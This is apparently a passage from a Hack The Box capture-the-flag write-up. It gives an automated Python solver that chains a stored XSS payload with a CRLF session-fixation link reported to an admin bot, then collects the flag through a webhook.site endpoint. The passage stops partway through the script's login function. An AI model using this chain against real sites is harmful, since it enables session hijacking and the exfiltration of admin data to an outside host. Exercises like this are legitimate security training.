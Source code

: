 The `reviewReport` function launches a headless Chrome browser and logs in as the admin user. It then navigates to the forum thread and reviews the post. Since we have direct input on the forum thread URI, we can send the CRLF URI instead.

Here's a fully automated solver that performs the full exploit chain:

```bash
$ python3 solver.py 127.0.0.1:1337

[+] Signing up a new account..
[+] Logging in..
[+] Generating webhook token..
[+] Generating XSS payload..
[+] Updating profile bio with XSS payload..
[+] Generating session fixation CRLF payload..
[+] Reporting CRLF URI to the admin..
[+] Waiting for flag to arrive on webhook..
[~] Flag arrived: HTB{********************}
[~] Cleaning up the webhook
```

```python
import requests, sys, random, base64, time

if len(sys.argv) != 2:
    print("Usage: python3 solver.py host:port\n\nExample: python3 solver.py 127.0.0.1:1337")
    sys.exit(1)

hostURL = 'http://' + sys.argv[1]
userName = 'rayhan0x%d' % random.randint(1111,9999) # new username
userPwd = 'rayhan0x%d' % random.randint(1111,9999)   # new password

class WEBHOOK:
    def __init__(self):
        self.url = "http://webhook.site"
        try:
            resp = requests.post('{}/token'.format(self.url), json={"actions": True, "alias": "xss-poc", "cors": False}, timeout=15)
            self.token = resp.json()['uuid']
        except:
            print("[!] Couldn't reach webhook.site, please make sure we have internet access!")
            sys.exit()

    def get_flag(self):
        try:
            resp = requests.get('{}/token/{}/request/latest'.format(self.url,self.token), timeout=15)
            flag = resp.json()['query']['flag']
        except:
            return False
        return flag

    def destroy(self):
        requests.delete('{}/token/{}'.format(self.url,self.token), timeout=15)


def register():
    jData = { "username": userName, "email": userName + "@gmail.com", "password": userPwd }
    req_stat = requests.post("%s/api/register" % hostURL,json=jData).status_code
    if not req_stat == 201:
        print("Something went wrong! Is the challenge host live?")
        sys.exit()

def login():
    jData = { "username": userName, "password": userPwd }
```